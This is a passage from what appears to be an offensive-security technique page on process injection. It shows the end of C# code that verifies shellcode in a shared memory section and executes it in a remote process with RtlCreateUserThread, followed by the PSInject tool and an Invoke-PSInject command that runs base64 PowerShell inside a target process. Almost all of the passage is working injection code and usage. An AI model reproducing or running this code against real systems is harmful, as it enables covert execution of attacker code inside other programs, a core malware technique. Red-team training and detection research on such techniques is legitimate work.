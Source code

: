 ```csharp
            if (!CompareByteArray(buf, remoteMemory))
            {
                Console.WriteLine("[-] DEBUG: Shellcode bytes read from remotely mapped view do not match with local buf");
                return;
            }
            // END DEBUG

            // Execute the shellcode in a remote thread (also can be done with CreateRemoteThread)
            //CreateRemoteThread(hRemoteProcess, IntPtr.Zero, 0, baseAddressR, IntPtr.Zero, 0, IntPtr.Zero)
            IntPtr threadHandle = new IntPtr();
            if (RtlCreateUserThread(hRemoteProcess, IntPtr.Zero, false, 0, IntPtr.Zero, IntPtr.Zero, baseAddressR, IntPtr.Zero, ref threadHandle, IntPtr.Zero) != IntPtr.Zero)
            {
                Console.WriteLine("[-] Failed to create a remote thread");
                return;
            }

            Console.WriteLine($"[+] Successfully injected shellcode into remote process ({processName}, {processId})");

            // Clean up
            NtUnmapViewOfSection(hLocalProcess, baseAddressL);
            NtClose(hSection);
        }
    }
}
```
{% endcode %}




## Tools



### PSInject

- [https://github.com/EmpireProject/PSInject](https://github.com/EmpireProject/PSInject)

```
PS > Invoke-PSInject -ProcId <PID> -PoshCode <BASE64_CMD>
```
